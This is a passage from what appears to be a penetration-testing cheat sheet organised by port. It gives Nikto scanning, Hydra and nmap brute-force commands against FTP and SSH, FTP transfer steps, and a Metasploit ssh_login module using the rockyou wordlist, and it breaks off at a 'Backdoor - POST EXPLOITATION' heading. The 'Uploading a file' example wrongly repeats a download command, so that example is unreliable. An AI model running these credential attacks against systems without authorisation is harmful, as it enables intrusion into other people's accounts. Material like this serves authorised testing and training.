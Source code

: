 - Nikto Vulnerability Scanning

```  
nikto -h <url>
```


## FTP 21

- BruteForcing
 
```  
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```
- Downloading a file
   
```  
# Downloading a file 
ftp <IP>
passive 
binary
get <File> 
```
- Uploading a file

```  
# Uploading a file 
ftp <IP>
passive 
binary
get <File> 
```

## SSH 22

- Brute Forcing 

```  
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

```  
nmap -p 22 --script ssh-brute --script-args userdb=<users.txt> <target_IP>
```

```  
#using msfconsole

use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target ip>
set USERPASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

- Backdoor - POST EXPLOITATION
